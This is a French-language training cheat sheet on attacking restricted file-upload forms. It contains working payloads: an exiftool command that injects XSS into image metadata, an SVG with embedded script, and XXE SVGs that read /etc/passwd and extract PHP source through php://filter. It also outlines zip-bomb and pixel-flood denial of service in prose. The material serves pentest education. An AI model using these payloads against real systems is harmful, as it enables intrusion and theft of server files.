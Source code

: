 # Limited File Uploads

***

### <mark style="color:blue;">**1. Introduction**</mark>

Le téléversement de fichiers peut représenter une menace sérieuse si une application web ne vérifie pas correctement les fichiers envoyés par l'utilisateur. Même si un formulaire de téléversement restreint certains types de fichiers, il peut toujours être exploité pour exécuter des attaques comme **XSS, XXE, SSRF ou DoS**.

***

### <mark style="color:blue;">**2. Attaques possibles**</mark>

#### **2.1. XSS (Cross-Site Scripting)**

Les fichiers contenant des métadonnées peuvent servir à injecter du JavaScript malveillant dans une application web.

**Exemple avec exiftool :**

```bash
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
```

**Effet :** L'application affichera ce commentaire et exécutera le code JavaScript malveillant.

**Exemple avec un fichier SVG :**

{% code fullWidth="true" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
{% endcode %}

**Effet :** Le script s'exécutera lors de l'affichage de l'image.

***

#### <mark style="color:blue;">**2.2. XXE (XML External Entity)**</mark>

Permet d'accéder à des fichiers internes du serveur.

**Lecture du fichier /etc/passwd avec un SVG :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

**Effet :** Affiche le contenu du fichier /etc/passwd.

**Lecture du code source PHP via Base64 :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

**Effet :** Encode le fichier en Base64, facilitant la lecture du code source.

***

#### <mark style="color:blue;">**2.3. DoS (Denial of Service)**</mark>

Attaques visant à surcharger le serveur.

**Bombe de décompression ZIP :**

> Un fichier ZIP contenant une archive infiniment compressée peut saturer le serveur lors de sa décompression.

**Pixel Flood avec un fichier JPG :**

> Modification manuelle des métadonnées pour fausser la taille de l'image (ex: 4 gigapixels), forçant le serveur à allouer une mémoire excessive.

**Téléversement de fichiers volumineux :**

> Si aucune limite de taille n'est imposée, un fichier très lourd peut remplir le disque du serveur et provoquer un crash.

***

